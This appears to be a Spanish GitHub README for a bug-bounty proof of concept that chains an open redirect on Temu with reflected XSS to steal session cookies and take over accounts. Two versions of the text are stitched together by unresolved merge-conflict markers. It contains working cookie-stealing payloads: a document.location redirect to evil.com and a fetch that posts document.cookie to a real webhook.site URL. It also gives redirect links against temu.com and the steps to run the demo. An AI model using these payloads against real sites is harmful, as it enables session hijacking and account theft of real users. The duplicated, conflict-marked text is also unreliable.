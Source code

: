 <<<<<<< HEAD

## 📌 Descripción del Proyecto

`temu-vuln-hunter-pro` es una prueba de concepto profesional enfocada en demostrar cómo múltiples fallos de seguridad pueden combinarse para obtener un impacto crítico:

- 🧩 **Redirección Abierta (Open Redirect)**
- 💥 **XSS Reflejado**
- 🍪 **Robo de Cookies**
- 👤 **Toma de Cuenta Remota**

Este tipo de ataque encadenado permite que un atacante genere un solo enlace malicioso capaz de redirigir a un usuario a un payload XSS y así capturar su cookie de sesión.

---

## 🧪 Archivos Incluidos

📁 temu-vuln-hunter-pro
├── main.py # Script para automatizar y lanzar el PoC
├── payloads/
│ └── xss-openredirect.html # HTML con payload XSS
├── reports/
│ └── temu_xss_redirect_report.md # Informe profesional del hallazgo
├── screenshots/
│ └── poc1.png # Captura de pantalla del ataque exitoso
└── README.md # Este archivo



---

## 🚀 Ejecución del PoC

Asegúrate de tener Python 3 instalado. Luego:

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro
python3 main.py
Esto abrirá el payload localmente y simulará la explotación para demostrar cómo se roba la cookie del usuario víctima.

💡 Concepto del Ataque
El atacante crea una URL con redirección abierta en Temu:

https://temu.com/redirect?to=https://evil.com/xss-openredirect.html
La víctima hace clic en ese enlace.

El navegador carga el archivo xss-openredirect.html, que contiene un script malicioso:

<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
Se roba la cookie de sesión y se envía al servidor del atacante.

El atacante reutiliza esa cookie y toma control de la cuenta de la víctima.

📸 Evidencia Visual

📄 Informe de Vulnerabilidad
Puedes leer el informe técnico detallado en reports/temu_xss_redirect_report.md, listo para ser enviado a HackerOne, Bugcrowd o el Google VRP en caso de participar en programas de recompensas.

⚠️ Descargo de Responsabilidad
Este proyecto ha sido creado con fines educativos y de responsible disclosure. No está diseñado para ser usado en actividades ilegales. El autor no se responsabiliza por su uso indebido.
Siempre reporta vulnerabilidades de forma ética y profesional.

📬 Contacto
Autor: Jonathan Jiménez

GitHub: @Jonathanjimenez123

Alias HackerOne: jimenez7@wearehackerone.com

Encabezado de Investigación: X-HackerOne-Investigación: jimenez7

⭐ Licencia
MIT © 2025 Jonathan Jiménez
=======
#📄 Contenido de README.md:

# 🛡️ temu-vuln-hunter-pro

> PoC profesional para explotar una vulnerabilidad crítica de Open Redirect + XSS reflejado en **Temu**, demostrando robo de cookies y escalada a toma de cuenta.

---

## 🚨 Descripción

Este proyecto demuestra una cadena de ataque real combinando:

#- ✅ Redirección abierta (`open redirect`)
#- ✅ XSS reflejado desde servidor externo
#- ✅ Robo de cookies vía JavaScript malicioso
#- ✅ Potencial toma de control de cuentas Temu

---

## 🔍 Estructura del Proyecto

temu-vuln-hunter-pro/
├── public/
│ └── poc.html # Página maliciosa que roba cookies
├── server.py # Servidor Flask que simula redirección
├── requirements.txt # Dependencias del proyecto
├── docs/
│ └── report.txt # Informe técnico completo para HackerOne
└── README.md # Este documento

---

## 💥 Payload usado

```html
<script>
fetch("https://webhook.site/32a0eb40-6f73-46d8-ae79-42f7535375e2", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({ cookie: document.cookie })
});
</script>
Este payload se ejecuta en poc.html después de que Temu redirige al atacante.

#🧪 Pasos para Reproducir

Visita este enlace:

https://www.temu.com/universal-link?redirect=https://temu-vuln-hunter-pro.vercel.app/redirect?url=https://webhook.site/...
El sistema redirige automáticamente al dominio del atacante.

Se ejecuta código malicioso en poc.html y la cookie se envía a un webhook externo.

#⚙️ Requisitos para correr localmenter

# Clonar el repositorio

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro

# Instalar dependencias

pip install -r requirements.txt

# Ejecutar servidor Flask

python server.py

#📄 Reporte Técnico

Consulta el archivo docs/report.txt para ver el informe completo enviado a HackerOne, incluyendo impacto, PoC y solución sugerida.

#🧠 Autor Jonathan Jiménez
#💻 Alias HackerOne: jimenez7
#✉️  Email: jimenez7@wearehackerone.com

#⚠️ Disclaimer

Este proyecto es una prueba de concepto creada únicamente con fines educativos y de investigación. No está destinado a usarse con fines maliciosos. Todo reporte se ha hecho bajo los lineamientos éticos del programa HackerOne.

>>>>>>> 14b4965 (🚨 PoC crítica: Open Redirect + XSS + Account takeover en Temu)
